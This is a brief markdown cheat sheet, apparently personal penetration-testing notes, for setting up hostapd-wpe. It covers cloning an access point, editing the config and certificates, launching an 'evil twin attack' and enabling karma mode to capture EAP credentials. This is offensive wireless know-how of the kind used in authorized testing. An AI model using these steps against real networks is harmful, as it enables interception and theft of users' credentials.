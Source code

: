 ### source
https://github.com/OpenSecurityResearch/hostapd-wpe  

### general information to clone access point
```
get vendor of to clone access point
dont use the same bssid and channel -> otherwise you create conflicts and probably DOS
```

### copy example config
```
/etc/hostapd-wpe/hostapd-wpe.conf
```

### edit copied config
```
interface=<interface>
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=<password>
dh_file=/etc/hostapd-wpe/certs/dh
ssid=hostapd-wpe                                                                                   
channel=1
...
bssid=<bssid>
```

### launch evil twin attack (in config at least interface, ssid and channel must be set)
```
hostapd-wpe -c hostapd-wpe.conf
```

### create custom certificates using example certs
```
/etc/hostapd-wpe/certs
```

### delete all certificates
```
make destroycerts
```

### create new dh-param
```
./bootstrap
```

### edit certs
```
vim ca.cnf
```

### create new certificates 
```
make ca
make client
make server
```

### karma mode
```
hostapd-wpe -k <config>
```

